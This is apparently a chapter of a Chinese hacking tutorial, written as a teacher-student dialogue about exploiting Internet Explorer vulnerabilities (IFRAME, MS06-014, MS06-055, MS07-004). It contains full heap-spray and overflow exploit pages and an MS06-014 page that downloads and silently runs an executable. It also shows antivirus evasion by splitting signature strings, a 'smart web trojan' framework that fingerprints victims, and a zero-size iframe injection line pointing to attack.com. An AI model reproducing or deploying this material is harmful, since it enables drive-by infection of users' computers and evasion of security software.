“我们生活在一个 C/S 架构的网络时代，服务提供商通过服务器提供他们的服务，客户通过客户端连接服务器接受服务。比如 QQ，腾讯公司提供登录、中转、保存的服务器，而用户们通过那只小企鹅客户端连接服务器，实现和好友们聊天的功能。又比如 Gmail 邮件服务，Google 公司提供邮件服务器，保存用户的邮件，而用户们通过 Foxmail 或者网页访问他们在邮件服务器上的邮箱，实现收发邮件的功能。而 Web 服务器，就是提供网页内容的服务器。Web 服务器给我们提供文字、图片甚至音乐等多姿多彩的网页内容。但是在网络上，其实都是以 HTML 的源码形式发送的，我们在命令行下输入 GET <URL>，比如 GET http://192.168.0.249，就会返回 Web 服务器 192.168.0.249 首页的内容，如图 5-31。”

“大家可以看到，Web 服务器上的内容其实都是 HTML 源码形式。”老师继续说道，“如果人们直接看这种代码来上网冲浪，那就一个头两个大了，Internet 网也不可能迎来爆炸性的增长。因此，现实中大家都会使用浏览器来上网。浏览器的功能就是解释这些 HTML 源码为人类可以识别的文章、图片等。可以说浏览器为网络的发展做出了不可磨灭的贡献。但是，浏览器在解释这些 HTML 源码的时候，如果设计或实现的考虑不完善，就会出现漏洞。攻击者就可以利用这些漏洞执行恶意代码，危害用户计算机的安全。空谈无益，我们来看一个实际的例子，IE 的 IFRAME 漏洞。IFRAME 漏洞是一个比较早的漏洞，是 IE 在解释 IFRAME 标记的 SRC 和 NAME 参数时，没有进行长度检查而造成的，比如在页面中写入：<IFRAME SRC=AAAAAAAAAAAAAA.... NAME='BBBBBBBBBB.....'>，就会覆盖 EAX 为 0x00420042，而之后会执行代码。”

```asm
778EC02    8B08            MOV ECX, DWORD PTR [EAX]
778EC04    68 847B7071     PUSH SHDOCVW.71707B84
778EC09    50              PUSH EAX
778EC0A    FF11            CALL NEAR DWORD PTR [ECX]
```

“哦，就是 MOV ECX, [EAX]，然后 CALL [ECX] 啊。”小菜们很快就认识到了问题的本质。

“是的，而 EAX 是我们可以控制的，大家学习了这么久的浏览器溢出，认为该如何利用呢？”老师问道。

“还是使用 Heap Spraying 的方法，把大片内存覆盖成 0x0D0D0D0D，也包括 0x00420042 的位置，而我们控制 EAX 为 0x00420042，这样 MOV ECX, [EAX]，就是 MOV ECX, [0x00420042]，ECX 就会被赋值为 0x0D0D0D0D，然后 CALL [ECX] 就是 CALL [0x0D0D0D0D]，就是跳到 0x0D0D0D0D 的地方，顺着 0D0D 最后执行到我们的 Shellcode。”

“好的，大家就这样利用来试试吧。”

“先用 Heap Spraying 模板分配内存到 0x0D0D0D0D，然后用 IFRAME 标记 NAME 参数为 CCCC…… 即可。页面就该是这个样子。”

```html
<SCRIPT language="javascript">
var heapSprayToAddress = 0x0d0d0d0d; // 要覆盖到的地址是 0d0d0d0d
var payLoadCode = ""; // Shellcode
unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090...");
var heapBlockSize = 0x400000; // 分配的每块内存的大小为 4M
var payLoadSize = payLoadCode.length * 2; // 在内存中，Shellcode 按 Unicode 编码，占据的长度变为 2 倍
var spraySlideSize = heapBlockSize - (payLoadSize + 38); // 计算每块 4M 内存要分配的 nop 长度
var spraySlide = unescape("%u0d0d%u0d0d"); // 填充的 nop 为 0x0d0d0d0d
spraySlide = getSpraySlide(spraySlide, spraySlideSize); // 分配所需长度的 0x0d0d0d0d
heapBlocks = (heapSprayToAddress - 0x300000) / heapBlockSize; // 计算到达目的地址要分配的存块数
memory = new Array();
for (i = 0; i < heapBlocks; i++) {
    memory[i] = spraySlide + payLoadCode;
}

// 分配所需长度 nop 的函数
function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length * 2 < spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
</SCRIPT>

<!-- 触发漏洞 -->
<IFRAME SRC='file://...BBBBBB....BBBBBBB' NAME='CCCCC......CCCCC'></IFRAME>
</HTML>
```

“Too easy! Too simple!”小菜们得意地笑道。

“好，大家试试呢？”

小菜们用 IE 打开该构造页面，“嗯？居然没有弹出计算器，怎么可能？这二板斧居然无效？？”小菜们屡试不爽的办法居然失效了。

“呵呵，我们直接上 OllyDbg 看看发生了什么问题吧。”老师说道。

“使用 OllyDbg 加载 IE，再打开构造的页面，OllyDbg 在这句代码中断了下来：`7108E242 8B40 34        MOV EAX, DWORD PTR DS:[EAX+34]`。大家看，EAX 的确被我们覆盖成了 `0x00430043`，但是 EAX+34 为 `00430077`，是没有加载内存的，所以报错了。”

“我们是做了 Heap Spraying 的啊？怎么会没有加载内存呢？”小菜们忙问道。

“呵呵，不要急，我们看一下。在 OllyDbg 中打开 memory 窗口，可以看到我们分配的内存，都处于比较高的地方，如图 5-32。”

“都是 `04xxxxxx` 之后的地址，才是我们分配的内存区域，而 `0x00430043` 可能是 IE 各线程会使用的，这么低的地址是我们的 Heap Spraying 不能影响的。”

“哦，明白了！这可怎么办啊？”

“解决的方法有两个，第一个就是找一个 `00xx00yy` 形式的地址，里面的值是 `0D000000` 左右的，这样我们用 `xx`、`yy` 覆盖，就可以把 `0D000000` 内存的值赋给 ECX，而这个区域是我们 Heap Spraying 后的，剩余的流程就可以完成了。第二个就是直接使用 Unicode 文件。在 UltraEdit32 里面，点击文件菜单‘另存为’，选择 UTF-16 格式，如图 5-33。”

“这样保存后，我们按 Ctrl+H 转到 16 进制显示，可以看到已经变成 Unicode 形式的了，如图 5-34。”

## 第五章：客户端漏洞的利用

“而在文件的开头，有一个是FFFF，说明这是Unicode文件，如图5-35。”


“而我们在最后以16进制形式写入0d0d0d0d，如图5-36。”


“再按Ctrl+H转回正常模式显示，0d0d0d0d是两个方框符号，如图5-37。”


“这样改变后我们再次使用IE加载这个页面，因为本身就是Unicode格式，0d0d0d0d就不会展开，EAX被覆盖成0d0d0d0d了，这样就会一切顺利，成功弹出计算器了，如图5-38！”


小菜们抹了抹汗：“差点对这么老的漏洞翻船啊，还好总算是成功了！看起来，IE漏洞和ActiveX漏洞差不多嘛。”

“是的，但IE漏洞也有一些自己的特点。”

## 5.2.2 IE跨域漏洞和免杀

“其实在讲ActiveX入门时，那个IE任意执行漏洞就显示出了IE的特有问题：跨域问题。跨域问题是IE对安全域的认定出现了问题，本是网络上的页面或者程序，被误认为是本地的页面，这样就绕过了安全域检查，可以让IE做任何不安全的事情。如果浏览器出现了跨域问题，就会非常危险。因为和溢出漏洞不同，跨域漏洞的利用不需要分配内存，不需要利用溢出来执行代码，这样打开构造页面时就不闪、不弹、不卡、不顿，用户很难察觉被挂马了。我们来看一个这样的漏洞——被誉为马王漏洞的MS06-014。其漏洞公告如图5-39所示。”

“漏洞的原理很简单，msadco.dll的处理拥有跨域漏洞，可以下载任意文件并执行。其利用也很简单，就是新建一个xmlhttp对象`var xmlhttp = obj.CreateObject("Microsoft.XMLHTTP", "");`，把要执行的程序比如木马下载下来，我们还是下载计算器，呵呵。”

```javascript
xmlhttp.open("GET", "http://192.168.0.249/calc.exe", false);//开始把木马下载下来
xmlhttp.send();
```


“然后创建一个ADODB.Stream对象：`var objAdob=obj.createobject("ADODB.Stream", "");`，使用ADODB.Stream对象来保存木马，然后执行木马。”

```javascript
objAdob.Open();
objAdob.write(xmlhttp.responseBody);
objAdob.SaveToFile(strExeName,2);//保存木马
objAdob.Close();
var objShell = obj.createobject("Shell.Application","");
objShell.ShellExecute(strExeName,"","","open",0);//运行木马
```

“最后一句是关键，通常情况下是不能执行程序的，但IE在处理ADODB.Stream时有漏洞，没有进行正确的域安全检验，所以可以执行从网络上下载下来的程序。那么整个页面合起来，就是下面这个样子。”

```html
<script language="javascript">
var strMuma="http://192.168.0.249/calc.exe"; // 不写地址
var obj=document.createElement("object");
obj.setAttribute("classid","clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"); // 有漏洞的msadco.dll的classid
var xmlhttp = obj.CreateObject("Microsoft.XMLHTTP",""); // 新建一个xmlhttp对象
var objAdob=obj.createobject("ADODB.Stream","");
objAdob.Type=1;
var objFSO = obj.createobject("Scripting.FileSystemObject","");
var strExeName="xxx.exe";
var strTempPath = objFSO.GetSpecialFolder(1); // 取的临时目录的位置，可改其他目录
xmlhttp.open("GET", strMuma, false); // 开始把木马下载
xmlhttp.send();
strExeName = objFSO.BuildPath(strTempPath, strExeName);
objAdob.Open();
objAdob.write(xmlhttp.responseBody);
objAdob.SaveToFile(strExeName, 2); // 保存木马
objAdob.Close();
var objShell = obj.createobject("Shell.Application", "");
objShell.ShellExecute(strExeName, "", "", "open", 0); // 运行木马
```

“我们测试一下，运行后，成功下载了我们的计算器并运行了，如图5-40！”

“这么简单易用啊？果然是马王中的极品！”小菜们正说着，突然杀毒软件报警了，页面被删掉了。

“哎哟，会被杀毒软件杀啊？”小菜们看了一看，说道。

“是的，这么明显的页面肯定会被认为是恶意页面的。”老师说道，“记住，Hacker是不断向计算机技术挑战的人！我们就让杀毒软件不认识它吧！杀毒软件是按照文件的特征码来识别一个病毒或木马的，我们试试改下各种语句，看它还能认识不。”

> **小知识：什么是特征码**
>
> 现在绝大多数的杀毒软件，都是建立在“病毒特征码”基础上的。有新病毒出现时，厂商先获得病毒的一个样本，提取出它的特征码；用户把特征码加入到病毒库中才能查杀。如果我们测试出了杀毒软件的判断特征码，将其改成不影响功能的其它指令，就肯定不会被查杀了。从这个意义上来说，反病毒的技术需要一个革命化的突破！

“比如`var objAdob=obj.createobject("ADODB.Stream", "")`这条语句实在太明显了，我们可以替换成`var adob=obj.createobject("AD"+"OD"+"B.Stream", "")`；其实完全一样，只是表现的形式不同而已。运行木马的语句`objShell.ShellExecute(strExeName, "", "", "open", 0)`也很明显，我们可以替换成`eval('runc.She'+'llExe'+'cute(strExeName,"","","open",0)')`。好了，类似这样，我们可以打造出免杀的页面，如下。”

```html
<html>
<script language="javascript">
var filename="calc.exe"; // 文件名
var url="http://192.168.0.254/"+filename; // 存放exe的地址
var obj=document.createElement("object")
obj.setAttribute("classid","clsid:BD96C556-65A3-11D0-983A-00C04FC29E36")
var str="Microsoft.XMLHTTP";
var xmlhttp = obj.CreateObject(str,"");
var adob=obj.createobject("AD"+"OD"+"B.Stream", "");
adob.Type=1;
eval('xmlhttp.op'+'en("GET",url,false)');
eval('xmlhttp.send()');
eval('adob.Op'+'en()');
var f = obj.createobject("Scripting.FileSystemObject", "");
var fname=filename;
var tmp = f.GetSpecialFolder(1);
fname=f.BuildPath(tmp,fname);
eval('adob.w'+'rite(xmlhttp.respo'+'nseBody)');
adob.SaveToFile(fname,2);
adob.Close();
var runc = obj.createobject("She'+'ll.Appli'+'cation", "");
eval('runc.She'+'llExe'+'cute(fname,"","","open",0)');
</script>
</html>
```


小菜们用IE加载了一下，还是成功弹出计算器，但这次杀毒软件不报警了。“哦，网页木马免杀的原理就是通过调换语句或者加密，或者拆分/组合各种特征码来实现免杀的吧。”小菜们边看边说道。

“是的，大家总结得很好。其实二进制文件也是通过同样的原理来实现免杀的。只要改变特征符，使杀毒软件不认识，又不影响原本的功能，就可以说打造出了一个免杀的版本。当然，免杀有时也需要有艺术性的。”老师说道，“最后要说的是：跨站漏洞虽好，可惜很少！更多的还是IE处理HTML标记时不完善而导致的溢出漏洞。我们还是来看看IE的溢出漏洞吧。”

## 5.2.3 IE的溢出漏洞

“我们先来看一下MS06-055漏洞。矢量标记语言VML中的Method变量，IE未对其长度进行检查，导致了一个栈溢出漏洞，其漏洞公告如图5-41所示。”

> “这个漏洞是vml的method名字没有检查长度，只要大于一定长度就会触发漏洞，其漏洞触发代码如下。”

```html
<Object id="VMLRender" classid="CLSID:10072CEC-8CC1-11D1-986E-00A0C955B42E">
<style>
v\:* { behavior:url(#VMLRender); }
</style>
<v:fill method="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"></v:fill>
```

> “Method的名字只要大于一定长度，就可以覆盖返回EIP和SEH了。”

“哦，标准的栈溢出啊！”

“我们使用OllyDbg加载IE，然后打开这个页面，这个过程大家都轻车熟路了。OllyDbg会因为捕获异常而中断下来，0x00410041就是我们覆盖的A，如图5-42。”

“从OllyDbg界面的左下方可以看到，堆栈从0x0012c070开始已经被全部覆盖成0x00410041了。然后在堆栈窗口按Ctrl+G，输入[fs:0]，可以看到SEH的位置为0x0012EB60，如图5-43。”

“好，我们算一下，0x0012EB60－0x0012c070＝0x2AE4，就是10980个字节，哇塞！要这么长啊。”小菜们惊叹道。

“不要怕，我们Ctrl+C、Ctrl+V就可以了。因为会扩展成Unicode，所以只需要10980/2＝5490个字符。我们构造5490个A，到达SEH处理链，然后将其覆盖成0x05050505，同时我们使用Heap Spraying技术将内存覆盖到0x05050505的地方。”

“老师，我有个问题！”小菜A突然说道，“因为我们覆盖的值会扩展成Unicode的形式，像AA内存中实际会是0x00410041的形式，所以就有一个像Iframe漏洞一样的问题啊，覆盖异常链的值会是0x00xx00yy这样的形式，那么，如何覆盖成我们想要的0x05050505这样的值呢？”

“这个问题问得太好了！”老师表扬道，“我们当然也可以用Unicode格式的文件，除此之外，我们还可以通过NCR编码来实现。”


> **小知识：NCR编码（Numeric Character Reference）**
>
> 通常情况下，我们的网页要指定一个编码字符集，如GB2312、UTF-8、ISO-8859-1等，这样我们就可以在网页上显示指定编码的文字了。但是我们很可能会遇到这种情况，那就是可能希望在ISO-8859-1编码的网页上显示汉字，或者在GB2312编码的网页上显示韩文字，这样就可能会出现乱码。一种方法是使用UTF-8，另一种方法是把网页指定为ISO-8859-1字符集，把除了ISO-8859-1编码中前128个字符以外的所有其它编码都用NCR来表示。比如“汉字”这两个字，如果我们写成“&#27721;&#23383;”这种形式，那么它在任意字符集下都可以正确显示了。

“我们把0x05050505用NCR编码就是`&#x0505;&#x0505;`来表示，这样字符就不会被扩展，乖乖地是用05050505来覆盖SEH了。”

“哦！明白了，这就简单了。”小菜们说道，“我们先用Heap Spraying模板把内存覆盖到0x05050505，然后将method方法的长度覆盖5490个字符时，覆盖两个NCR编码的0x0505，就是`&#x0505;&#x0505;`。这样的话页面合起来如下。”

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
<object id="VMLRender" classid="CLSID:10072CEC-8CC1-11D1-986E-00A0C955B42E">
</object>
<style>
v\:* { behavior: url(#VMLRender); }
</style>
</head>
<body>
<SCRIPT language="javascript">
var heapSprayToAddress = 0x5050505; // heap spraying的目标地址
var payLoadCode = shellcode; // 运行计算器
unescape(/* ...shellcode... */);
// heap spraying的总模板
var HeapBlockSize = 0x400000
var payLoadSize = payLoadCode.length * 2
var spraySlideSize = HeapBlockSize - (payLoadSize + 0x38)
var spraySlide = unescape("%u9090%u9090")
spraySlide = getSpraySlide(spraySlide, spraySlideSize)
heapBlocks = (heapSprayToAddress - 0x400000)/HeapBlockSize
// 分配内存
memory = new Array();
for (i=0;i<heapBlocks;i++) {
    memory[i] = spraySlide + payLoadCode;
}
// 分配长度为spraySlideSize的nop
function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length*2<spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize/2)
    return spraySlide
}
</script>
<v:rect style="width:120pt;height:80pt" fillcolor="red">
<v:fill method="AAAA\x054901A - &#x0505;&#x0505"> // 触发漏洞
</v:rect>
</body>
</html>
```

“再使用IE打开我们的06055.htm，好了，又成功弹出计算器了！”

“对了，那个Iframe漏洞的0x0D0D0D0D也可以像这样使用NCR编码构造吗？”小菜A想起了Iframe漏洞。

“是的！”老师说道，“我们可以完全不用Unicode编码，只在CCCCCC的最后覆盖成`&#x0D0D;&#x0D0D;`，就可以成功覆盖成0x0D0D0D0D而不被改变了。”

“哦？那快试一下。”小菜们如此改了后，再用IE加载IframeNCR.html，又成功了，如图5-44！

“哈哈！这下可算功德圆满，完美解决了！”小菜们笑道，“这样的漏洞可以说是来一个杀一个，来一对杀一双了啊！”

“大家再想想，我们用NCR编码后字符可以保持不变，那么我们可不可以不做Heap Spraying，而像传统的缓冲区利用一样，覆盖异常后直接跳入Shellcode呢？”老师又引导大家举一反三地思考。

“对啊！”小菜们说道，“我们把异常处理链覆盖成Jmp 06、nopnop和pop/pop/ret的地址，然后在后面直接接NCR编码后的Shellcode！这样异常后就可以跳入到我们的Shellcode执行了，根本不用Heap Spraying啊。”

“对，对字符串进行NCR编码的C程序如下。”老师提示道。

```c
// convert string to NCR
void convert2ncr(unsigned char * buf, int size)
{
    int i;
    unsigned int ncr = 0;
    for(i=0;i<size;i+=2)
    {
        ncr = (buf[i+1] << 8) + buf[i];
        printf("&#x%x;", ncr);
    }
}
```


# 第五章 客户端漏洞的利用

“那我们在参数 buf 数组中存入覆盖地址和 Shellcode，调用 convert2ncr 函数打印出 NCR 编码后的值，紧跟在 5490 个 A 的后面就可以了。构造就是 5490 个 A……A&#x06eb;&#x9090;&#x1571;&#x7FFA;&#xE8FC;&#x0044;……这样子的。可以看出，最开始的字符是 eb06 9090 7FFA 1571 这个经典的搭配。”

“好了，我们试一下，哦！还是成功了！”小菜们又成功了。

老师补充道：“注意，在 NCR 编码中，&#x0000 中的 &、#、x 还是会被展开的，所以 Shellcode 中不能有 0000 这样的字节。为了避免该情况，这需要用到 Shellcode 编码技术，以后我们会专门讲解的，这里就先不讨论了。好了，虽然微软发布了 MS06-055 补丁，但 IE 对 VML 的处理仍然还有漏洞，研究人员于 2007 年又发现了和 VML 相关的漏洞——MS07-004 漏洞。”


图 5-45

“哦？微软居然没有补干净漏洞？”

“是的，这说明安全是个任重道远的问题，我们来看看到底如何利用吧。MS07-004 是 CVMLRecolorInfo::InternalLoad() 中的 recolorinfo 方法存在整数溢出问题，在确切点是这句代码 IMUL EAX,EAX,2C 有问题，如果 EAX 很大，相乘就会造成整数越界溢出，变成一个很小的数。”


图 5-46

“哇！整数溢出漏洞重出江湖了啊！”

“江湖？有人的地方就有江湖，同样，只要代码是人写的，就会有溢出。接下去的代码会用这个数分配空间，然后拷贝，就会造成溢出了。要触发这个漏洞溢出有两个关键地方，一个是 `<v:recolorinfo recolorstate="t" numcolors="97612895">`，就是所需要的大整数。”

第二个关键是：

```html
<v:recolorinfoentry tocolor="rgb(1,1,1)" recolortype="1285" bgcolor="rgb(1,1,1)" forecolor="rgb(1,1,1)" backcolor="rgb(1,1,1)" fromcolor="rgb(1,1,1)" lbstyle="i32" bitmaptype="3"/>
```

这里 rgb(a,b,c) 的 a、b、c 会直接传递到内存里，也会直接传递给后面的 ecx，从而我们可以控制 call [ecx + 10h]。我们用 OllyDbg 加载 IE 之后，打开触发漏洞的页面，报出现异常，如图 5-47。

“看堆栈中的调用信息，是 RETURN to mshtml.70D08AFB，如图 5-48。”


图 5-47

“Ctrl+G 输入 70D08AFB，可以看到之前的调用是 call [ecx + 10]，如图 5-49。”

“而我们看寄存器的值，ecx 是 0x00010101，就是我们传进去的 r、g、b 的值，如图 5-50。”


图 5-48

“所以 CALL [ECX+10] 就是 call [00010111]，而 00010111 里面存的值为 00 6C 00 65，如图 5-49。”

“0x65006C00 所在的地方不能执行，当然就报错了。”小菜们点点头。

“对，内存都已经被我们 Heap Spraying 过了，ECX 的后三个值是我们可以控制的。只要 call [0x00?????? + 10] 能跳到任意一个被 Heap Spraying 过后的内存即可！其实这个选择非常大，但要通用的话却不是那么容易，看 axis 提的一个通用地址 0x00420001。”

```text
00420000 00 00 00 00 00 00 00 00 01 00 48 1B DD BB
00420010 00 00 00 00 00 00 01 00 C8 9A F2 E1 08 EA A4 E1
```


图 5-49

“大家注意，0x00420011 的地方是 0C，我们利用的是这个内容。call [ecx+10] 变成了 call [0x00420011]，就会跑去执行 0x0C000000 处的代码了。而这个时候，那个高地址肯定已经被我们 Heap Spray 过了，代码就会一直执行到我们的 shellcode 去。”

“哦！不说还真不知道这个地址呢！”小菜们感叹道，“现在只要选择这个地址，就可以实现通用了。”

“是的，所以还是说明了一个道理：交流才能进步。”

## 5.2.4 智能网马123

“轻轻松松搞定了这么多 IE 漏洞，真是不看不知道，一看吓一跳。”小菜 C 说道。

“是啊，感觉利用方法也都类似，大同小异。”

“但这么多的漏洞，如果可以像漏洞扫描一样，预先探测下漏洞是否真的存在，如果真的存在再利用，那就完美了。”小菜 A 说道。

“这是个很好的想法。”老师表扬道，“在实际中，这就是通常所说的智能网马。一个完美的智能网马应该具有的功能如下：”

- 1. 判断操作系统类型；
- 2. 判断是否有某个漏洞；
- 3. 判断某个 ActiveX 是否安装；
- 4. 设置 cookie，避免反复溢出；
- 5. 设置延迟时间，过几秒再开始溢出。

“我们依次讲解每个功能的作用和实现吧。第一，有些漏洞在某些系统上不好用，或者针对不同的系统攻击代码有些许不同。这时就需要首先判断系统的类型，再调用对应的攻击页面。使用 JavaScript 实现的判断系统的代码如下，里面有详细的注释。”

```html
<script language="javascript">
function detectOS() // 判断系统函数，返回 XP、2003 和 2000
{
    // Windows NT 5.1 是 XP 系统
    if (navigator.userAgent.indexOf("Windows NT 5.1") != -1)
    {
        OS = "XP";
    }
    // Windows NT 5.2 是 2003 系统
    else if (navigator.userAgent.indexOf("Windows NT 5.2") != -1)
    {
        OS = "2003";
    }
    // 否则是 2000 系统
    else
    {
        OS = "2000";
    }
    return OS;
}
// 调用 detectOS 函数的测试代码，在页面上显示出系统版本
if (detectOS() == "2000")
    document.write("2000");
else
{
    if (detectOS() == "XP")
        document.write("XP");
    else
        document.write("2003");
}
</script>
```


“代码中的 detectOS 函数判断系统的类型，而主测试流程是调用 detectOS 函数，在页面上显示出函数返回的结果。我们测试一下，将该代码保存在一个名为 detectOS.html 的文件中。在 2000 系统上浏览该页面，其显示结果如图 5-50 所示。”

“正确地显示出了是 2000 系统，我们再在 XP 系统上浏览该文件，这次显示的是 XP 系统了，如图 5-51。”

“代码中的 document.write("XP"); 是在页面上输出文字‘XP’，我们只要把该句改为 window.location.href = "XP.html" 就可以调用 XP 系统对应的构造页面 XP.html 了。同样地，把 document.write("2000"); 改为 window.location.href = "2000.html"，就可以调用 2000 系统对应的构造页面 2000.html 了。”

“第二，智能网马的重要作用当然是判断某个漏洞是否存在了。之前说过，像 MS06-014 这样的漏洞属于跨域漏洞，杀机于无形，是马王中的极品。如果能够判断出是否有 06014 漏洞，如果有就直接调用 06014 的利用代码，如果没有再依次判断有没有其它的漏洞，就可以起到事半功倍的效果。判断是否有 MS06-014 漏洞的代码如下。”

```html
<script>
function Judge06014()
{
    try
    {
        var obj = document.createElement("object");
        obj.setAttribute("classid", "clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"); // 有漏洞的 msadco.dll 的 classid
        var xmlhttp = obj.CreateObject("ADODB.Stream", ""); // 新建一个 ADODB.Stream 的 xmlhttp 对象
        return true; // 如果能够成功建立对象，认为有漏洞，返回 true
    }
    catch(e)
    {
        return false; // 建立过程中发生异常，catch 异常，认为没有漏洞，返回 false
    }
}
// 弹出一个对话框，显示测试结果
alert("06014 Exist " + Judge06014());
</script>
```

“代码的实质是新建一个 ADODB.Stream 对象，如果能够建立成功则认为有漏洞，而如果在建立过程中发生异常，则认为没有漏洞。我们测试一下，存在 06014 漏洞的电脑上的结果如图 5-52 所示，在不存在漏洞的电脑上的测试结果如图 5-53 所示。”

“第三，对于智能网马来说，判断某个 ActiveX 控件是否安装也很重要。比如 UC、阿里巴巴支付宝控件等，如果没有安装就不用调用对应的攻击页面了。判断某个 ActiveX 控件是否安装的方法可以是引用该控件后，试着调用它的一个方法；如调用不成功，则说明该控件还没有安装。”

```html
<html>
// 引用 UC ActiveX 控件
<OBJECT ID="UC"
CLASSID="CLSID:77AE4780-75E0-4CB0-A162-D1B8E3D50384"></OBJECT>
<script>
try
{
    // 试着调用 ActiveX 控件的一个方法，如果可以调用，说明已经安装该控件
    UC.SendDownLoadFile("http://192.168.0.249/calc.exe");
    alert("UC installed!");
}
catch (ex)
{
    // 调用方法发生异常，catch 异常，认为还没有安装
    alert("UC not installed!");
}
</script>
</html>
```


“该代码对 UC 控件的 SendDownLoadFile 方法进行调用，如果可以执行说明安装了 UC 的这个 ActiveX 控件，如果发生了问题，则 catch 捕获住，认为还没有安装该控件。测试效果如下，首先是在安装了控件的电脑上的执行效果，如图 5-54，而在没有安装的电脑上，其效果如图 5-55 所示。”

“果然正确地识别出了是否安装了该控件啊！”小菜们忙记录下来。

“第四，智能网马还应能够判断来访者，如果客户最近访问过，就不再调用网马页面，从而避免每次都因为 Heap Spray 而卡在页面那里。为了实现该功能，我们给访问者设置一个名为 cookieauto 的 cookie，其过期时间为 24 小时。如果客户机上还存在该 cookie，就不做任何动作，否则就设置 cookie 并调用对应的页面。”


```javascript
// 判断 cookieauto 是否存在
if (document.cookie.indexOf("cookieauto=") == -1)
{
    // cookieauto 不存在
    alert("no cookie!");
    // 获取当前时间，赋给 date
    var date = new Date();
    var expireDays = 1;
    // 将 date 设为 1 天以后的时间
    date.setTime(date.getTime() + expireDays * 24 * 3600 * 1000);
    // 将 cookie 设置为 1 天后过期，expire=时间
    document.cookie = "cookieauto=set; expire=" + date.toGMTString();
}
```


```javascript
// 三秒后调用对应页面
timeout = setTimeout("getPage()", 3000);
```

“对已经过时的电脑和未访问过的电脑的测试效果分别如图 5-56、图 5-57 所示。”

“第五，为了避免一下子就将 IE 卡住，智能网马还应该可以更改溢出时间，延时一段时间后再调用木马页面。延时执行某段代码可以用 setTimeout 函数来实现，比如 setTimeout(code, delay);，其含义是延时一段 delay 的时间后，执行 code。我们在页面中的实现是：timeout = setTimeout("getPage()", 3000);。就是延时 3 秒后，调用 getPage() 这个函数。大家都应该想到了，getPage 函数里肯定是用 document.location.href 来加载对应的构造页面了，比如加载 1.htm 页面。”


```javascript
function getPage()
{
    document.location.href = "1.htm";
}
```


“好了，有了如此多的实现，我们就可以构造出完整的智能网马框架了。首先是一个入口页面，在这里判断漏洞是否存在、ActiveX 是否安装、系统的类型是什么，然后调用对应的中间页面 tempXXX.htm。tempXXX.htm 的作用是判断 cookie 是否超时，如果超时或者没有设置过，就延时三秒，调用真正的漏洞攻击页面 XXX.htm。比如我们判断出了电脑带有 06014 漏洞，就调用 06014 的中间页面 temp06014.htm。temp06014.htm 判断是否设置了 cookie，如果没有，就设置，并在三秒后调用真正的攻击页面 06014.htm。整个智能木马的框架如图 5-58 所示。”


“这样所有的漏洞利用都完美地结合在一起了！”小菜们说道。

“攻击者常用的进入入口页面的挂马语句是 `<iframe src="http://attack.com/attack.htm" width="0" height="0"></iframe>`，这是以大小为 0 的窗口弹出页面。这样做的目的是使得用户完全看不到该窗口。攻击者攻下一个网站后，在网站主页上加上这么一句代码，那么所有的访问用户都会在不知情的状态下打开攻击者的恶意页面了。现在流行的 ARP 挂马病毒，就是在 ARP 欺骗中转的页面中加上这句 `<iframe src="http://attack.com/attack.htm" width="0" height="0"></iframe>`。这样只要拿下目标网站同一网段下的其它机器，就可以实现挂马了。网站的管理人员肯定会摸不着头脑的——网站代码上的确没有 iframe 啊，客户端浏览器上的 iframe 是哪里钻出来的呢？其实是传输的中途被加上去的。最后，很多攻击者为了避免被直接识破，常会对代码进行加密。比如 16 进制加密，是以 /x 开头；8 进制加密，是以 / 开头。”

老师说道：“挂马也是门艺术，不过我们的重点还是在技术本身上。这里只是让大家了解下挂马的一些手段，遇到问题时能够知道该如何着手解决！”

### 5.2.5 JavaScript 内存探讨：精确定位 SP2 堆分配地址

“讨论了这么多 Heap Spraying 的实例，现在我们回过头来看看。”老师说道，“虽然用 Heap Spraying 实现了我们的目的，但需要分配大量的内存，导致页面打开比较慢。而且倘若之前 IE 已经打开了大量的页面，就可能已经使用了 0x0C0C0C0C 处的地址。我们的 Heap Spray 就不能填充 0x0C0C0C0C 处的内容了，这样即使跳到了 0x0C0C0C0C，也不是我们的数据，执行不到我们的 Shellcode。”

“是啊，就像之前的例子，比较低的地址如 0x00410041 被 IE 使用了，就不能被 Heap Spraying 到了。”小菜们很赞同。

“是的，但如果我们能够精确地知道某块内存的位置，而对该块内存填充好我们的代码……”

“那我们就可以利用漏洞直接跳到该位置，执行我们的代码了！”小菜抢着说道，不过小菜们随即发出了疑问：“但是，内存的分配都是由系统自己完成的，我们有可能知道吗？”

“事实上，我们是有可能知道的。”老师说道，“比如 XP SP2 的内存分配有多种结构，其中分配最快、”

# 第五章 客户端漏洞的利用

首先会使用的是 Lookaside 结构，如图 5-59。

“从 8 到 1024 字节的空闲项会临时放在 lookaside 中，这样在分配内存时如果 lookaside 中有对应大小的块，就会从 lookaside 中直接获取，以增加分配的性能和速度。在默认情况下，Lookaside 表的位置是固定的，只要清楚了 Lookaside 的结构，我们就可以算出释放的那块内存所在的位置了！比如在 XP SP2 下，Lookaside 的堆基址是 0x150000，而某个 size 对应的 Lookaside 入口地址为：堆基址 + 0x688 + ((size+8)/8)*48，那么大小为 1008 的块，在 Lookaside 中的入口地址就为：0x150000+0x688+((1008+8)/8)*48=0x151e58，即大小为 1008 的第一块空闲块，其地址存在 0x151e58 中！如果我们用伪造的 0x151e58 覆盖某个对象指针的值，就会成为下面这个样子！”

